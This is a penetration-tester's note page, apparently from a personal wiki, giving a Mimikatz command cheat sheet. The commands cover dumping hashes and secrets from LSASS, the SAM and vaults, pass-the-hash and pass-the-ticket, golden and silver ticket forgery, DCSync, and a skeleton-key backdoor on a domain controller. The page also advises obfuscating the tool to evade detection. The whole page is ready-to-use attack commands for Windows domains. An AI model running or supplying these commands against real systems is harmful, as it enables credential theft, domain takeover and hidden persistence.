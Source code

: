 Mimikatz is a windows tool used to enumerate passwords and hashes from the Windows SAM, which can be acquired by Mimikatz or via a process dump by [[Procdump]] or in Task Manager. 

> [!danger] Detection Risk 
> Mimikatz is well signatured. This must be obfuscated or otherwise disguised before running, as with most tools. 

Mimikatz is run as an executable and prompts the user with a command line interface.

| Mimikatz Command                                                                                                                                                                                                               | Description                                                                                                                                                              |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `privilege::debug`                                                                                                                                                                                                             | Check for SeDebugPrivilege availability in current session                                                                                                               |
| `sekurlsa::msv`                                                                                                                                                                                                                | Pull password hashes from LSASS memory via injection.                                                                                                                    |
| `sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>`                                                                                                                                                                     | Perform a Pass-The-Hash attack to impersonate a new user                                                                                                                 |
| `sekurlsa::logonPasswords`                                                                                                                                                                                                     | Get passwords and hashes from a dump file                                                                                                                                |
| `sekurlsa::minidump \<dumpfile\>`                                                                                                                                                                                              | Examine a specific .dmp file gnerated via procdump or TM                                                                                                                 |
| `sekurlsa::ekeys`                                                                                                                                                                                                              | List Kerberos encryption keys                                                                                                                                            |
| `sekurlsa::dpapi`                                                                                                                                                                                                              | List DPAPI master keys for browser-stored credentials and the Windows Credential Vault                                                                                   |
| `sekurlsa::tickets /export`                                                                                                                                                                                                    | Export Kerberos tickets in memory to files for PTT.                                                                                                                      |
| `kerberos::ptt <ticket>`                                                                                                                                                                                                       | Perform PTT attack and store a provided ticket in memory. (Verify with `klist` outside of mimikatz)                                                                      |
| `kerberos::golden /user:<your username> /domain:<domain> /sid:<SID> /krbtgt:<KRBTGT hash from lsa (golden only)> /service:<service name (silver only) /rc4:<Service NTLM hash (silver only)> /id:<500 (golden)/1103 (silver)>` | Create a golden or silver ticket with Mimikatz and add it to your mimikatz session.                                                                                      |
| `lsadump::sam`                                                                                                                                                                                                                 | Dump the SAM                                                                                                                                                             |
| `lsadump::dcsync /domain:contoso.local /user:adminisrtator@contoso.local`                                                                                                                                                      | Request a DC sync to acquire the NTLM (or RC4 decrypted) hash for the given user. Must be run in the context of a user with DCSync rights.                               |
| `lsadump::cache`                                                                                                                                                                                                               | Load cached credentials from the registry                                                                                                                                |
| `lsadump::lsa /inject /name:krbtgt`                                                                                                                                                                                            | Dump the KRBTGT for creating Golden Tickets. Change `krbtgt` to a service account or DA to make a silver ticket.                                                         |
| `lsadump::secrets`                                                                                                                                                                                                             | Dump secrets on host, including active TGTs in memory owned by service accounts and cleartext credentials for logged-in users.                                           |
| `vault::list`                                                                                                                                                                                                                  | List the vaults on a system                                                                                                                                              |
| `vault:cred`                                                                                                                                                                                                                   | List credentials in a vault                                                                                                                                              |
| `misc::cmd`                                                                                                                                                                                                                    | Open an elevated command prompt with the privileges/tickets currently obtained.                                                                                          |
| `misc::skeleton`                                                                                                                                                                                                               | Inject a skeleton key backdoor into the forest's memory. From here, you may use the password 'mimikatz' with any user in the domain. Must be run on a domain controller. |

See also: [[Pypykatz]]
